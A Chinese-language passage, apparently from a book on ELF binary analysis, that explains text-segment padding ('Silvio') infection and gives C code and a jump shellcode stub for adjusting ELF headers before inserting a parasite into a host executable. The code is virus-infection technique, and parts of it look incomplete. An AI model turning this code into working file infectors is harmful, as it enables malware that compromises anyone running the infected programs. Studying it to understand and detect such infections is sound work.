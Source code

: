 ### 文本段填充感染的示例

文本段填充感染（也称为 Silvio 感染）可以通过一些示例代码最好地进行演示，我们可以看到如何在插入实际寄生体代码之前正确调整 ELF 头文件。

#### 调整 ELF 头文件

```
#define JMP_PATCH_OFFSET 1 // how many bytes into the shellcode do we patch
/* movl $addr, %eax; jmp *eax; */
char parasite_shellcode[] =
        "\xb8\x00\x00\x00\x00"      
        "\xff\xe0"                  
;

int silvio_text_infect(char *host, void *base, void *payload, size_t host_len, size_t parasite_len)
{
        Elf64_Addr o_entry;
        Elf64_Addr o_text_filesz;
        Elf64_Addr parasite_vaddr;
        uint64_t end_of_text;
        int found_text;

        uint8_t *mem = (uint8_t *)base;
        uint8_t *parasite = (uint8_t *)payload;

        Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
        Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr->e_phoff];
        Elf64_Shdr *shdr = (Elf64_Shdr *)&mem[ehdr->e_shoff];

        /*
         * Adjust program headers
         */
        for (found_text = 0, i = 0; i < ehdr->e_phnum; i++) {
                if (phdr[i].p_type == PT_LOAD) {
                        if (phdr[i].p_offset == 0) {

                                o_text_filesz = phdr[i].p_filesz;
                                end_of_text = phdr[i].p_offset + phdr[i].p_filesz;
                                parasite_vaddr = phdr[i].p_vaddr + o_text_filesz;

                                phdr[i].p_filesz += parasite_len;
                                phdr[i].p_memsz += parasite_len;

                                for (j = i + 1; j < ehdr->e_phnum; j++)
                                        if (phdr[j].p_offset > phdr[i].p_offset + o_text_filesz)
                                                phdr[j].p_offset += PAGE_SIZE;

                                }
                                break;
                        }
        }
        for (i = 0; i < ehdr->e_shnum; i++) {
                if (shdr[i].sh_addr > parasite_vaddr)
                        shdr[i].sh_offset += PAGE_SIZE;
                else
                if (shdr[i].sh_addr + shdr[i].sh_size == parasite_vaddr)
                        shdr[i].sh_size += parasite_len;
        }

    /*
      * NOTE: Read insert_parasite() src code next
         */
        insert_parasite(host, parasite_len, host_len,
                        base, end_of_text, parasite, JMP_PATCH_OFFSET);
```